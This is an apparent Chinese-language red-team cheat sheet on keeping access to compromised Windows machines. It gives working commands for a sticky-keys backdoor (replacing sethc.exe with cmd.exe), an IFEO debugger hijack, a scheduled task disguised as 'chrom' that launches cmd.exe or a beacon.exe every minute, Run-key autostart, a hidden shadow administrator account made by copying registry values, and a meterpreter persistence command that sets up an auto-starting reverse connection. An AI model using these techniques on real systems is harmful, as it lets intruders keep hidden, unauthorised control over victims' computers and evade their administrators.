


# Windows权限维持

### 五次粘滞键

1. 需要对sethc.exe有操作权限

   

2. 修改原本粘滞键 sethc.exe ：  renmae sethc.exe sethc.exe.bak

3. 复制cmd.exe 到 sethc.exe  : copy cmd.exe sethc.exe

4. 在登录页面或windows任意页面按五次shift键即可打开cmd窗口

   

### 镜像劫持（修改原本程序的启动路径或软件）IFEO

- 注册表：HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows NT/CurrentVersion/Image File Execution Options

1. 打开注册表 HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows NT/CurrentVersion/Image File Execution Options

   

   

2. 添加项  (要和想劫持的文件名 一样) sethc.exe

   

   

3. 添加字符串 debugger , 添加值  C:\windows\system32\cmd.exe

   

   

4. 此时粘滞键变为cmd.exe

   

### 计划任务 schtasks  （win7 之前是at）

- 设置计划任务打开cmd：

  - schtasks /create /tn "chrom" /tr cmd.exe /sc minute /mo 1

    

    

- 设置计划任务打开beacon.exe
  - schtasks /create /tn "chrom" /tr beacon.exe /sc minute /mo 1

### 开机自启动

- HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Run

  

  

  

### 影子账户 ，隐藏账户

1. 创建隐藏用户

   net user aaa$ 123123 /add

   

   

2. 注册表 （默认看不了，要修改权限）

   

   

3. 复制administrator用户对应的Users项的F值粘贴到 aaa$ 用户对应的Users项的F值

   

4. 导出 Names 中 aaa$ 项，和 Users 中 aaa$ 对应项

   

5. 删除用户net user aaa$ /del

   

6. 双击第四步保存的两个reg文件，导入注册表，生成影子账户

   

### **meterpreter 权限维持**

- 自启动	

meterpreter >  run persistence -U -i 10 -p 6666 -r 127.0.0.1

设置开机自启，自动连接 127.0.0.1 的 6666 端口，反弹meterpreter （不稳定且已弃用）

